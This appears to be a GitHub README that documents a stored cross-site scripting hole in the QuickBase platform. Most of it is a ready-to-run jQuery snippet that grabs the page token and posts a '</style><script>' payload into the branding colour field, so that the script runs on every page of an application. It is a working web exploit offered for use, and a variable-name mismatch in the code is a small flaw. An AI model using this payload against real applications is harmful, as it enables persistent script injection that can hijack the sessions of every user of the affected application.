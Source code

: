 #QuickBase XSS
This repository documents XSS injection vectors I've discovered in the QuickBase platform (http://www.quickbase.com).

##Branding Page Injection
This one requires admin privileges, so it isn't a major vulnerability. Why, then, is it interesting? *It allows arbitrary code to run application wide!* I see this being way more useful then nefarious.

#####How does it work?
Run the JavaScript below in your developer console while on the dashboard of the application you want to affect. It will issue a POST to the SaveAppSettingsBrandGuide action.

#####Why does it work?
QuickBase engineers only sanitized input client side on a value that gets inserted into every page in the application. Doh!

```
var DBID = "";
var REALM = "";
var SCRIPT = "alert('HELLO!');";
var token = $("[name=PageToken]").val();

$.ajax({
  url: "https://" + REALM + ".quickbase.com/db/" + DBID + "?a=SaveAppSettingsBrandGuide",
  type: "POST",
  data: {
    uiCustomTextColor: "</style><script>" + script + "</script><style>",
    PageToken: token,
    CustomHeader: "on",
    uiCustomHeaderOptions: "iBasic",
    apply: "Save"
  }
});
```
